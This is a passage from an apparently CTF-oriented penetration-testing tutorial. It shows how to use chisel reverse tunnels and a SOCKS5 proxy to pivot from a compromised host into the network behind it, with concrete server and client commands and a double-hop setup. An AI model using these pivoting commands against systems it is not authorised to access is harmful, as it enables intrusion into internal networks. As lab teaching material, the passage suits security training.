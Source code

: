 In this case, I’ll use a reverse tunnel to open a listening port on my Kali
host that can now talk to hosts behind my initial compromised host:

  * `./chisel server -p 8000 --reverse` on my local box.
  * `./chisel client 1.1.1.1:8000 R:80:3.3.3.4:80` on the target. This will open a listener on port 80 on my Kali box, and any connections to that port will be forwarded to the target, which will pass them to port 80 on 3.3.3.4.

![](https://0xdfimages.gitlab.io/img/chisel-2.png)

#### Socks Proxy

_Update 10 Aug 2020_ : As of [version
1.5.0](https://github.com/jpillora/chisel/releases/tag/v1.5.0), Chisel now has
a Socks option built in.

On Kali run `./clisel server -p 8000 --reverse`.

On box you want to proxy through run `./chisel client 1.1.1.1:8000 R:socks`.

This will start a listener on Kali on port 1080 which is a SOCKS5 proxy
through the Chisel client.

_Original Text:_

Ippsec showed this at the end of his video, and it’s worth seeing. `chisel`
only let’s the server act as a socks proxy. But, in the case of Reddish, I
don’t have a way to connect directly to that server. I’ll use `chisel` to set
up a tunnel so I can connect to another `chisel` in the opposite direction:

  * `./chisel server -p 8000 --reverse` on local box, as usual.
  * `./chisel client 1.1.1.1:8000 R:8001:127.0.0.1:9001` on target box. Now anything I send to localhost:8001 on kali will forward to localhost:9001 on target.
  * `./chisel server -p 9001 --socks5` on target. Now I have a `chisel` server listening on 9001, in socks mode, and a way to get traffic to that port.
  * `./chisel client localhost:8001 socks` on Kali box. This connection is forwarded through the first tunnel and connects to the `chisel` server running on the box. Now my local host is listening on port 1080 (default, can change that with arguments) and will send traffic to target, and then proxy it outbound.

![](https://0xdfimages.gitlab.io/img/chisel-3.png)

Now I can use `proxychains` or `FoxyProxy` to interact with the network behind
the target natually.

#### More Complex Examples

At this point, these tunnels can be used to create more complex setups. For
example, to go even more layers deep into a network, I can set up listeners on
the first hop that forward back to the `chisel` server on kali, and then
create new `chisel` reverse tunnels from there.

## SSF

### Prep
